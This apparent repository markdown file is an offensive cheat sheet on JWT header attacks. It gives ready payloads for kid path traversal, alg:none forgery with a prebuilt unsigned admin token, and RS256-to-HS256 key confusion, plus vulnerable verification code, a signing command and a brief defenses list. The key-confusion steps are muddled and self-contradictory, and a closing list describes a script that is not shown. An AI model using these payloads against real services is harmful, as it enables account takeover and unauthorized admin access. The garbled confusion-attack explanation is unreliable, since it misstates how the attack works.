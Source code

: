 # 🔐 JWT Header Injection & `kid` Manipulation Exploits

JWT (JSON Web Tokens) are used for stateless authentication. Poor validation of headers like `alg` and `kid` can result in **critical bypasses** and **privilege escalation**.

---

## 🧠 Understanding `kid`

`kid` stands for **Key ID**. It’s used by the server to decide **which key** to use to verify a JWT.

Attackers can **manipulate this value** to:
- Point to arbitrary files
- Force the app to use attacker-controlled keys
- Trigger local file inclusion or path traversal

---

## ☠️ Common Exploits

### 🔸 1. `kid` File Path Injection (LFI or Confusion)

```json
{
  "alg": "HS256",
  "kid": "../../../../../etc/passwd"
}
```
Backend behavior (vulnerable):

```javascript
const keyPath = `keys/${header.kid}`;
const keyContent = fs.readFileSync(keyPath);
const key = fs.readFileSync(`keys/${header.kid}.pem`);
jwt.verify(token, key);
```

🔁 If file content is read as HMAC key — attacker can use predictable file contents as signing material.

🔸 2. Public Key ➝ HMAC Confusion Attack
This is key confusion between asymmetric (RS256) and symmetric (HS256) algorithms.

Steps:
Get server’s public key (via .well-known/jwks.json, etc).
Forge a JWT with the following header:
```json
{
  "alg": "HS256",
  "kid": "<server_public_key>"
}
```
Generate a JWT with the manipulated header.
Send the forged token to the server.
🔁 Server reads the public key from disk (`keys/public.pem`) and tries to verify the token.
🔁 Since the public key is treated as an HMAC secret, it gets hashed before being used.
🔁 The hash matches the expected HMAC digest, so the server accepts the token.
Modify header:

```json
{
  "alg": "HS256",
  "kid": "public.pem"
}
```
Use the public key as the HMAC secret to sign a token.
Send the forged token to the server.
🔁 Server verifies token with public key (asymmetric) but treats it as an HMAC (symmetric) key.
Server accepts it (believing it's valid).
🔁 Server believes the token was signed correctly because it matches the public key.
🔁 The server thinks the token is valid even though it wasn't signed properly.
🔁 This allows attackers to impersonate users or gain unauthorized access.
🧨 Now you're authenticated as any user — including admin.
🔸 3. alg: none Attack
JWT header:
```json
{
  "alg": "none",
  "typ": "JWT"
}
```
No signature is added. If the server skips validation for alg: none, attacker can forge any payload.
Result: Admin access without knowing the secret or key.

🧪 Example Payloads
1. Unsigned Token (alg: none)
```json
eyJhbGciOiJub25lIn0.eyJ1c2VyIjoiYWRtaW4ifQ.
```
2. Tampered HS256 Token with LFI kid
```json
{
  "alg": "HS256",
  "kid": "../../../dev/null"
}
```
Sign using:
```javascript
// Using jwt-cli tool
jwt encode --alg HS256 --secret "$(cat /dev/null)" '{"user":"admin"}'
```

### 🛡️ Defenses
❌ Do not allow alg: none — ever.

✅ Enforce algorithm types on server (e.g., only RS256).

🧱 Never allow file paths in kid.

🔐 Use robust libraries (PyJWT, jsonwebtoken) with strict settings.

✋ Reject tokens with unknown or untrusted kid.

### 🛠 Tools to Practice

- jwt_tool.py
- AuthAnalyzer
- jwt.io
- Postman with Bearer header injection
- Burp Suite Repeater + Decoder

### 📌 Pro Tip
If the server uses a JWKS endpoint (/.well-known/jwks.json), try:
Swapping in your own public key with matching kid
Attacking the key rotation process
🔴 Impact: Full account takeover, privilege escalation, and unauthenticated admin access.


## What the script now demonstrates:
> ALG=none bypass - Creates unsigned tokens
> KID path traversal - LFI attempts via KID header manipulation
> Malicious KID payloads - SQL injection, XSS, and edge cases
> Token structure analysis - Decoding and header inspection
> Algorithm confusion attacks - RS256→HS256 vulnerability concept
